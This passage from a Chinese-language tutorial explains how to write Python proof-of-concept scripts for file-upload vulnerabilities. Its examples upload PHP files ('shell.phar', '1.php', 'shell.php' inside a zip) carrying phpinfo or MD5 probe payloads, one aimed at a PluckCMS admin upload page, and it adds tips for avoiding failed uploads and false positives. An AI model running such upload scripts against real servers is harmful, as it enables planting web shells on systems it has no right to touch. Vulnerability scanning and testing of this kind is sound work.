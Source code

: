 最简化后，请求部分中，最重要的只有Referer,host,user-agent,Content-Type部分，一般人会通过在脚本中都写上那些字段，并在请求体中添加`-----boundry=XXXXXXX`等来达成文件上传的目的，但这样无疑会使脚本显得不美观，类似这样：

```python
header = {
    'Host': target_ip,
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'multipart/form-data; boundary=---------------------------5170699732428994785525662060',
    'Connection': 'close',
    'Referer': 'http://' + target_ip + ':' + target_port + pluckcmspath + '/admin.php?action=files',
    'Cookie': cookie,
    'Upgrade-Insecure-Requests': '1'
}
data = "-----------------------------5170699732428994785525662060\r\nContent-Disposition: form-data; name=\"filefile\"; filename=\"shell.phar\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php phpinfo();?>\n\r\n-----------------------------5170699732428994785525662060\r\nContent-Disposition: form-data; name=\"submit\"\r\n\r\nUpload\r\n-----------------------------5170699732428994785525662060--\r\n"
```

而在一个较为成熟的脚本中，只需要注意其中的Content-Type,name,filename,以及文件内容即可，因为上传文件可以使用这样的代码来实现：

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
url = ....
headers = {"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"}
file = {
            'upload_file': ('1.php', '<?php phpinfo();?>', 'image/jpeg'),
            'submit': (None, 'submit')
        }
req = requests.post(url, headers=headers, files=file, timeout=10, verify=False)
```

上述代码，可完全使得代码量变小，通过定义文件，也使代码更美观

**小技巧**： 如果要上传文件的服务器上已经有了类似于shell.php的文件，那么再次上传shell.php可能会上传失败，此时也可以使用随机数的方法，将文件名设置为`随机数.php`，或者`时间戳.php`并且文件内容中可以包含随机数的MD5值与`phpinfo()`，在访问时可以减少误报

如果是上传**压缩文件**呢？？？（涉及到`zipfile`库）

示例代码如下：

```python
import zipfile,random,randint
yuju = str(random.randint(0, 999999))
# 新建一个.zip文件
def create_zip():
    myzip = zipfile.ZipFile('{}.zip'.format(yuju),mode='a',compression=zipfile.ZIP_DEFLATED)
    myzip.writestr("shell.php", "<?php echo md5({});?>".format(yuju))

class Pocscan():
    def __init__...
    def verify(self):
        create_zip()
        # 给 upzip 赋值，值为ZIP文件的二进制数据
        upzip = open("{}.zip".format(yuju), "rb")
        files = {
            'file': ('{}.zip'.format(yuju), upzip, 'application/x-zip-compressed'),
            }
        req = requests.post(url, files=files, headers=headers, timeout=10, verify=False)
```